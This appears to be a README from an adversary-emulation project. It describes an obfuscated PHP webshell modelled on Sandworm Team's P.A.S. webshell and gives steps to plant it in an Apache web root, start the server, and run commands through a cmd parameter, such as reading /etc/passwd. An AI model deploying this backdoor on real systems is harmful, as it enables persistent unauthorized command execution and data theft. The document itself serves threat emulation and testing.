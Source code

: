 # PHP WebShell

This folder contains a simple PHP webshell that emulates a subset of behaviors of the P.A.S. webshell used by Sandworm Team:

```
Sandworm Team has used webshells including P.A.S. Webshell to maintain access to victim networks.[19]
```

## Quick Start

0. Read the source code for `webShell.php` and `obfuscated_webShell.php` - don't worry, its short.

1. Copy `obfuscated_webShell.php` to a web server directory on the target system. This example shows how to do so on a default Apache installation:

```
cp obfuscated_webShell.php /var/www/html/
```

2. Start the web server if its not already running

```
sudo systemctl start apache2
```

3. Issue commands using a web browser or HTTP client:

```
curl http://127.0.0.1/new.php?cmd=cat+/etc/passwd
```

## Test Instructions
Run this Python script:

```
python3 test_webshell.py
```

## Cleanup Instructions 
Delete the webshell from the target file system:

```
rm /var/www/html/obfuscated_webShell.php
```

## Misc

The PHP source code was taken from Kali Linux at:
```
/usr/share/webshells/php/simple-backdoor.php
```

Credit the original author: DK, http://michaeldaw.org, 2006 (note: dead hyperlink)

The obfuscated_webShell.php was obfuscated using an online PHP obfuscator (https://www.gaijin.at/en/tools/php-obfuscator).

### CTI Evidence
https://attack.mitre.org/groups/G0034/
https://www.cert.ssi.gouv.fr/uploads/CERTFR-2021-CTI-005.pdf


### References
https://tools.kali.org/maintaining-access/webshells
https://www.gaijin.at/en/tools/php-obfuscator
